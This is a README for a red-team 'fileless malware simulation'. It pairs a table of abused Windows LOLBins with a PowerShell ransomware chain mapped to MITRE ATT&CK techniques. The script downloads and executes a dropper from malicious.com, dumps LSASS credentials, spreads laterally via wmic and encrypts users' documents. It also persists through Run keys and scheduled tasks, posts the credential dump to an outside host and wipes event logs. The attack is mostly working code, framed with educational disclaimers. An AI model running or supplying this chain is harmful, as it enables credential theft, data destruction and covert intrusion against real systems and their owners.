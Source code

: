
<div align="center">

## 🧠 **100% Fileless Malware Simulation**
> High-fidelity adversary emulation using in-memory execution and LOLBins

![License](https://img.shields.io/badge/license-MIT-black?style=flat-square)
![Status](https://img.shields.io/badge/build-simulation-lightgrey?style=flat-square)
![Scope](https://img.shields.io/badge/type-red_team-blue?style=flat-square)
![MITRE ATT&CK](https://img.shields.io/badge/framework-MITRE_ATT%26CK-red?style=flat-square)

</div>

## Overview:
Fileless malware is a type of attack that runs entirely in memory, using built-in system tools like PowerShell and rundll32 without ever writing files to disk, making it difficult for traditional antivirus to detect. While a fully fileless chain is possible—leveraging phishing, in-memory injection, and living-off-the-land binaries—in practice, traces like temporary files or registry entries often still appear during execution.

## ⚠️ Advisory Warning: Educational Use Only  
This repository contains content related to NSFW (Not Safe for Work) cybersecurity topics including fileless malware, LOLBins, and adversary simulation tactics. The information provided is strictly for **educational, academic, and controlled research lab environments only**. **Do not deploy or replicate these techniques in unauthorized systems.** Misuse may constitute a violation of laws and ethical guidelines.

---

## 🧠 NSFW - Fileless Malware (Advanced Simulation Guide)

![Fileless Malware Concept](https://github.com/user-attachments/assets/3108f067-a49b-45c1-b1c4-07691881c76b)

---

## 🧩 LOLBins 101: Living off the Land Binaries & Scripts

**LOLBins** (Living off the Land Binaries) are legitimate Windows system utilities that adversaries repurpose to execute code, evade defenses, and persist. These tools are trusted, signed, and often overlooked by endpoint security solutions.

### ⚙️ Common LOLBins and Their Abuse Cases

| LOLBin              | Abused For                       | ATT&CK Tactics                          |
|---------------------|----------------------------------|-----------------------------------------|
| `rundll32.exe`      | DLL execution                    | Code execution, EDR bypass              |
| `mshta.exe`         | Run HTA payloads                 | Script execution, sandbox evasion       |
| `regsvr32.exe`      | Load COM DLLs                    | Fileless execution, C2 proxy            |
| `wmic.exe`          | Remote command execution         | Process launch, lateral movement        |
| `cmd.exe / powershell.exe` | Script runners          | Payload staging, persistence            |
| `msbuild.exe`       | Inline C# compile/exec           | Fileless malware loading                |
| `certutil.exe`      | Download/decode files            | Exfiltration, staging                   |
| `bitsadmin.exe`     | Remote file fetch                | Delivery, task persistence              |
| `schtasks.exe`      | Task scheduling                  | Privilege escalation, persistence       |
| `esentutl.exe`      | Copy/exec binary payloads        | Stealth operations, exfiltration        |

---

## 🧬 Theoretical Simulation: 100% Fileless Ransomware  
*Using the [MITRE ATT&CK](https://attack.mitre.org/) Framework for Mapping TTPs*

> ⚠️ **Disclaimer**: Code below is a synthetic simulation script intended for red team R&D under proper authorization. DO NOT EXECUTE OUTSIDE OF A SANDBOX ENVIRONMENT.

<details>
<summary>Click to view simulated PowerShell ransomware chain</summary>

```powershell
# 🎯 1. Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ 2. Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 3. Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 4. Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 5. Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 6. Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 7. Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 8. Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 9. Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 10. Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🧭 Additional Resources

- 🔧 [PrintNightmare Deep Dive](https://itm4n.github.io/printnightmare-not-over/)
- 💀 [PrintNightmare Vulnerability Summary](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
- 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
- 🧠 [MITRE ATT&CK Entry - S0697](https://attack.mitre.org/software/S0697/)
- 🧬 [LOLGEN - Generate Abuse Chains](https://lolgen.hdks.org/)
- 🦠 [Fileless Malware – Wikipedia Overview](https://en.wikipedia.org/wiki/Fileless_malware)
- 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🖨️ [Printer Driver Exploits](https://github.com/jacob-baines/concealed_position)

---

### 🛡️ Final Note
This repository is a research artifact intended for cybersecurity professionals, malware analysts, and red team operators. Unauthorized use, real-world deployment, or replication of these techniques is prohibited. Always operate within the bounds of your local laws and professional codes of conduct.

